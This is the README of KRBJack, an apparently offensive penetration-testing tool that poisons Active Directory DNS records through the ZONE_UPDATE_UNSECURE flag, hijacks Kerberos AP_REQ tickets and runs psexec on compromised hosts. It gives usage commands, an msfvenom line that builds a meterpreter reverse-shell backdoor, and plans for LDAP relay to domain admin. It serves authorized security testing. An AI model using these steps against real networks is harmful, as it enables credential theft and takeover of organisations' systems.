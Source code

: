 # KRBJack

This tool can be used to abuse the dangerous `ZONE_UPDATE_UNSECURE` flag on DNS main domain zone in an Active Directory. This flag when set allows anyone unauthenticated to update, add and remove DNS records anonymously. It is quite common to see it during engagements as it is required to get some DHCP servers working with non-windows based systems, to get them update their own records. Even though this flag is extremely dangerous, I've never seen any tool to ease its exploitation. What I wanted to build is a mean to perform Man-in-the-Middle based on this dangerous flag, grab credentials and use them directly to own systems or the entire active directory services (though multiple tools can be used together to perform ntlm relay for example).

The benefit from using this technique of man in the middle is that it goes through routers, as the "official" DNS records are poisonned. If proper routing is set (and if no firewall rule prevents it), someone on another broadcast domain can be targeted (unlike ARP poisoning which only works on you broadcast domain).

Moreover I made the choice to perform fully functionnal AP_REQ hijacking to allow compromission of systems using kerberos instead of NetNTLM.

# Install

```bash
sudo python -m pip install krbjack
```

You do need to install the tool with root rights as it will need to be runnable by root to listen to privileged ports. Alternatively you can have fun with virtual envs. Alternatively you can download this repo and use `poetry` to install it.

# Usage

`sudo krbjack --target-name <targetNBTName> [--target-ip <targetIP>] --domain <domainName> --dc-ip <domainControlerIpAddress> --ports <port1,port2,port3,...> psexec <executable.exe>`

- `--target-name` : The netbios name of your target, the one you will impersonate, the one you want will pwn if successful. Example : `winserv2`;
- `--target-ip` : You might want to specify the IP address of your target. The alternative is to let this tool query the DNS to get its IP addresses. A quick naive scan is performed to choose one IP from the ones returned by the DNS though this method is flawed. Example: `192.168.42.20`;
- `--domain` : The domain name to which your target is joined. Example : `windomain.local`;
- `--dc-ip` : The IP address of the domain controller you will be poisoning DNS records. Can be any domain controller as the DNS zones will be replicated automatically. Example : `192.168.42.10`;
- `--ports` : A list of TCP ports which will be open on your attacker's machine to forward traffic to your target. This list is *very* important because if you omit one port which is open on the legitimate service (your target), clients wont be able to access it during the time of the attack. Setting this list of ports correctly is the key to perform the attack without doing to much of a mess in the network. Example : `135,139,445,80,443,8080`
- `psexec <executable.exe> [--no-cleanup]` : The psexec command followed by the path to an executable on your attacker's machine. This executable will be uploaded and executed psexec-style on your target if the attack succeeds. Example : `psexec /home/almandin/metx64revtcp.exe`.

    The executable you provide can be either a "standard" executable, or a windows service executable (better). If it is a "standard" executable, windows will kill it when running after a few seconds if it has not ended already, because as it is run as a service, Windows expects it to do proper signaling (behave as a true service). Though it still works, you might want to migrate quickly your meterpreter when the session is established.

    If you use a windows service executable, you're good to go, nothing to add here. You can generate such executables with msfvenom with the `exe-service` format:

        msfvenom -f exe-service -o backdoor.exe -p windows/x64/meterpreter/reverse_tcp LHOST=X LPORT=Y

**Additionnal flags :**

- `--check` : Used to performs no attack at all, just to check if the DNS zone is vulnerable.
- `--no-poison` : Can  be used to set all the mess in place but prevent DNS poisoning from being done. Just in case you managed to poison DNS yourself or if you found another way to point clients to you instead of the legitimate service.

## What are the preriquisites for this to work ?

First you need to check if the domain you are testing is vulnerable to the main misconfiguration : `ZONE_UPDATE_UNSECURE`. For this you can use external tools such as PingCastle, or let Krbjack do it with the addition of the `--check` flag on the command line.

At the moment this tool only works for systems that do not require SMB Signing. This is a current limitation as the exploited service is SMB for the time being. It means that you cannot target domain controllers most of the time as they have been requiring SMB signing by default for a long time.

## What are the risks of using this tool ?

Just like any other man in the middle attack, you will be receiving connections from any client requesting an access to any service of your target. This means that it can be CPU intensive if the targetted system is highly used.

Moreover, this tool performs live packet inspection on fully-connected TCP streams. Clients DO connect to you before being redirected to the legitimate service. Because of how Kerberos works, it will block some specific connections from behaving correctly as service tickets will be used on the clients' behalf, having the effect to be "consumed" (kerberos tickets cannot be replayed). It means that this tool will make network connection a bit unreliable for every new connection with an interesting AP_REQ in it (AP_REQ for SMB services to our target). HOWEVER, a whitelist is in place to prevent complete blocking of connections. If a client comes several times, only the first AP_REQ will be hijacked. Either it was successful and you pwned your target, or it was not and the client is added to the whitelist to prevent it from being checked again and blocked multiple times. Moreover, other services will still be served and be working correctly thanks to proper forwarding "à la" ssh port forwarding, thoug it might induce lag and delays because of network packets processing on the attacker machine.

## How does it works ?

First the man in the middle is put in place by changing DNS records attached to your target. It abuses the DNS misconfiguration to say `"hey, now myLegitService is now at <attacker's IP>"`. This way, everyone trying to reach the legitimate service will now reach to you instead. The DNS records are also kept poisoned by checking regularly if they have been set back to the right ones (a server or computer might have reboot, or updated a record while the attack was beeing performed).

In the meantime, the tool starts multithreaded TCP servers to mimick your target TCP services. It starts to serve SMB, HTTP, whatever service you state in the command line. It does so just like an SSH port forwarding : when you reach to the attacker's started services, krbjack initiates connection to the true legitimate service on the same port, and forwards every packet from the legitimate client, to the legitimate service. This way, a full man in the middle is performed both ways, this prevents traffic from being completely blocked.

When the man in the middle is performed, every single packet is inspected to find kerberos AP_REQ packets (containing what's necessary to authenticate to services). When such a ticket is found to be sent from a client, it is NOT forwarded to the legitimate service, but it is used in real time to connect to the legitimate service *on behalf* of the legitimate client. This way krbjack can perform authenticated stuff to the legitimate service. At the moment only SMB is supported, meaning that krbjack performs authenticated SMB actions at this time of the attack workflow. It then uses this authenticated channel to check if the legitimate client was an administrator (tries to list directory ADMIN$ - C:\Windows). If it happens that the client was an administrator, man in the middle is stopped, DNS records are fixed ant it then uses the very same authenticated channel to perform a full psexec.

Krbjack also modifies packets on-the-fly depending on the protocol to remove security flags when possible (SMB flags "signing required", "supported" etc... though it is quite naive for the time being).

# Acknowledgements

Project Zero :
- https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html
- https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html

Impacket :
- https://github.com/fortra/impacket

# Todo

- Find a way to reset kerberos authentications such a way that clients can retry instantly to authenticate when we steal their tickets. I found that windows is quite sensible to failures and tend not to retry authentications when something goes wrong. Maybe answer with an `KRB_AP_ERR_TKT_EXPIRED` could have the expected effect.
- Make it work against LDAP as it does not require signing by default AND allows for full domain compromise by adding a new domain admin. It would do so by leveraging kerberos relaying from SMB/CIFS ticket to a DC to LDAP to the very same DC, or by extracting a high privilege AP_REQ directly from the SASL in an LDAP connection.
- Implement ntlm relaying altogether maybe ? So that this tool would be self-sufficient in case `ZONE_UPDATE_UNSECURE` is availabe. Multiple modules could be used at the same time, allowing one to run the first module available for an interesting packet.
- Allow to disable the whitelist mechanism completely as it might be a problem when computer accounts connect first, then a user account is used on that computer. In this configuration (which could happen quite often) there is a risk that only computer accounts owned tickets are tried and not user owned tickets.

# Disclaimer

This tooling is made only for legal penetration testing and not for any other use. I am not responsible for how it is used by anyone or if it is used to penetrate systems without permission or proper contractual agreements. It is provided as is and without warranty of any sort.